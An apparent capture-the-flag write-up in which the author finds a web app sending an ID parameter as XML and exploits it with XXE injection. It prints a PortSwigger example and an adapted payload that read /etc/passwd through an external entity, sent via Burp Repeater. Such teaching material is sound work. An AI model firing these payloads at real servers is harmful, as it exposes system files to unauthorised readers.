


## Analysis
The website for this challenge is relatively simple, featuring no input fields but three buttons. Upon closer inspection, it becomes clear that the site does not hide any flags within its HTML elements.


Running **gobuster**, shows us existence of `/data` directory, which we cannot access.  However, this discovery suggests that the site likely uses HTTP requests for functionality.

Clicking 'details' will write us a information on program - after investigating these, we can see that upon using them, a http request is sent - and payload of response to this request is written on our screen.

Using **Burp Suite** ([https://portswigger.net/burp](https://portswigger.net/burp)), we can analyze the HTTP communication in detail.



We observe that the payload sent contains an ID parameter, and the server's response is based on this ID. If we modify the ID to an invalid value, such as 0, the server returns an error indicating that the specified ID does not exist.

Additionally, the payload is formatted in XML. If the web application lacks proper input validation or sanitization, this could expose it to XML-based attacks, such as XML External Entity (XXE) Injection. This vulnerability could allow us to exploit the system by injecting malicious XML entities.

## Exploit 

We can try to use XML external entity (XXE) injection (https://portswigger.net/web-security/xxe).

Using one of the examples from portswigger site
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>    
</stockCheck>
```
We can change this to fit our previous payload.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&payload;</ID>
</data>
```
Then just put this into `burpsuite repeater` and send the request.


